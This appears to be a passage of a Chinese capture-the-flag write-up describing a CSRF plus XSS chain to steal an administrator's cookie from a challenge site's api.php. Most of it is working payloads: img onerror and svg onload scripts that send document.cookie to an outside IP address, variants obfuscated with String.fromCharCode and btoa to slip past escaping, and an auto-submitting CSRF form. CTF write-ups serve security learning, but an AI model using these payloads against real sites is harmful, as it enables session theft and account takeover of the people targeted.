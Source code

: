 继续思考。。。

我们可以利用CSRF+XSS组合拳获得admin的cookie，获得cookie后就能成为admin了。

让admin先访问一个我们的页面，我们的页面自动向api.php提交一个包，触发xss，窃取cookie。

首先，测试获得一个可用的xss。

- Payload1:

  利用onerror执行任意js

  ```html
  token=d096148ee0d3cf1'<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://202.112.51.135:8001/?='%2Bdocument.cookie); >'d4478b1b79785f81a&action=get_password&username=admin
  ```
  反斜杠被转义，我们利用String.fromCharCode绕过
  ```html
  token=d096148ee0d3cf1'<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src',String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 50, 48, 50, 46, 49, 49, 50, 46, 53, 49, 46, 49, 51, 53, 58, 56, 48, 48, 49, 47, 63, 61)%2Bdocument.cookie); >'d4478b1b79785f81a&action=get_password&username=admin
  ```

  ```html
  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body onload="document.forms[0].submit()">
    <script>history.pushState('', '', '/')</script>
      <form action="http://ctf.momomoxiaoxi.com/api.php" method="POST">
        <input type="hidden" name="token" value="d096148ee0d3cf1&apos;&lt;img&#32;src&#61;x&#32;onerror&#32;&#61;&#32;document&#46;body&#46;appendChild&#40;document&#46;createElement&#40;&apos;img&apos;&#41;&#41;&#46;setAttribute&#40;&apos;src&apos;&#44;&apos;http&#58;&#47;&#47;202&#46;112&#46;51&#46;135&#58;8001&#47;&#63;&#61;&apos;&#43;document&#46;cookie&#41;&#59;&#32;&gt;&apos;d4478b1b79785f81a" />
        <input type="hidden" name="action" value="get&#95;password" />
        <input type="hidden" name="username" value="admin" />
        <input type="submit" value="Submit request" />
      </form>
    </body>
  </html>
  ```

- Payload2:

  利用svg的src属性

  ```html
  <svg onload='img = new Image(); img.src="http://202.112.51.135:9090/?z="+document.cookie;'>
  
  token=d096148ee0d3cf1<svg onload='img = new Image(); img.src=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 50, 48, 50, 46, 49, 49, 50, 46, 53, 49, 46, 49, 51, 53, 58, 57, 48, 57, 48, 47, 63, 122, 61)+document.cookie;'>&action=get_password&username=admin
  
  token=d096148ee0d3cf1'<svg onload='img = new Image(); img.src=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 50, 48, 50, 46, 49, 49, 50, 46, 53, 49, 46, 49, 51, 53, 58, 57, 48, 57, 48, 47, 63, 122, 61).concat(btoa(document.cookie));'>'&action=get_password&username=admin
      
      concat(btoa(document.cookie)); 
  
  ```
